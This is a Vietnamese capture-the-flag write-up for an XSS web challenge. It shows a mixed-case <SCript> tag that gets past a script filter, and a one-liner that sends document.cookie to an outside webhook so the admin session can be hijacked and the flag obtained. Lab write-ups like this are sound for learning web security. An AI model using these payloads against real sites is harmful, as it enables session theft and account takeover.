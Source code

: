 # Solution

Thử thách cho ta hai link url, nhìn vào link thứ hai là một link bot và có mở port có lẽ là để tương tác với user thông qua trang web. Truy cập vào url đầu tiên ta sẽ thấy có một form **login** được action trên file **login.php**

![form_login](https://live.staticflickr.com/65535/52773944476_7b2b6ca504.jpg)

Sau đó ta tạo tài khoản để đi vào website

![register](https://live.staticflickr.com/65535/52774367195_55b82cdb07_z.jpg)

Sau khi đăng kí thành công, trang web điều hướng ta ngược trở lại form **login** và tiến hành đăng nhập bằng tài khoản mà ta vừa đăng kí. Sau khi đi vào website, trang web điều hướng đi vào trang home và xuất hiện một **creat note** và một trường cho phép nhập text vào(Có lẽ là thẻ **textarea**). Mình đoán ở đây là nơi có lỗ hổng, và có thể trang web có thể đang dính lỗi **XSS**, chúng ta sẽ cùng thử kiểm chứng.

![create_note](https://live.staticflickr.com/65535/52774221769_805c0a558d_h.jpg)

Đầu tiên mình thử một payload đơn giản và đưa vào trường nhập liệu rồi nhấn submit

```
    <script>alert("hi");</script>
```

![xss](https://live.staticflickr.com/65535/52774381900_9e82c2c93d_h.jpg)

Một dòng **Your note: Script tag not allowed** được trả về, có lẽ các thẻ script đã bị lọc hoặc loại bỏ. Mình sẽ bật **burpsuite** và bắt request để thấy rõ hơn điều này.

![xss](https://live.staticflickr.com/65535/52774251154_513752024a_n.jpg)

> Dòng trạng thái đầu tiên được bắt với chuỗi truy vấn đằng sau **?content** đã bị filter

Bây giờ ta sẽ thử cố bypass nó bằng cách sửa đổi một chút và đưa lại vào trường nhập liệu

```
    <SCript>alert("hi");</SCript>
```

![xss](https://live.staticflickr.com/65535/52773995381_2393a099df.jpg)

Một popup hiện ra với dòng alert **"hi"** => bypass thành công.

![xss](https://live.staticflickr.com/65535/52773470367_b665e8cda1_h.jpg)

Tiếp theo vẫn cách làm như vậy mình sẽ tạo ra một **webhook** để lấy **cookie** và gửi cho admin. Hiểu đơn giản thì **webhook** là một cơ chế cho phép ứng dụng gửi và nhận các thông báo tự động khi có sự kiện xảy ra trên một trang web hoặc ứng dụng khác. Ở đây mình sẽ dùng nó để lấy cookie thông qua một payload xss. Mình lấy payload này ở [payload\_\_xss_Silent One-Linear](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) và thay url mặc định bằng url webhook của mình.

```
    <SCript>var i=new Image;i.src="http://p59d71b4.requestrepo.com/?"+document.cookie;</SCript>
```

Sau khi submit, lấy link url được gửi request để cho chat bot chấp nhận và nhấn **Send**

![bot](https://live.staticflickr.com/65535/52774505683_e81d34ec9a_z.jpg)

Sau đó một response đã được gửi về url webhook của mình trong đó có chứa cookie của admin

![cookie](https://live.staticflickr.com/65535/52774508778_efabb80ab5_h.jpg)

Lấy cookie vừa nhận được và gửi cho admin

![cookie](https://live.staticflickr.com/65535/52774027466_7825a3ee2a_c.jpg)

![cookie](https://live.staticflickr.com/65535/52773504147_10c2ab8921_z.jpg)

Trên màn hình xuất hiện dòng chữ **Hello admin**, nghĩa là lúc này quyền user của ta hiện tại đang là **admin**, có một tab **Admin Panel** điều hướng đến đó ta thu được flag

![flag](https://live.staticflickr.com/65535/52774300729_38b1f81688_h.jpg)

> Flag : **ATTT{3z_X2S_Fr0m_V@tv069_W1th_L0v3}**
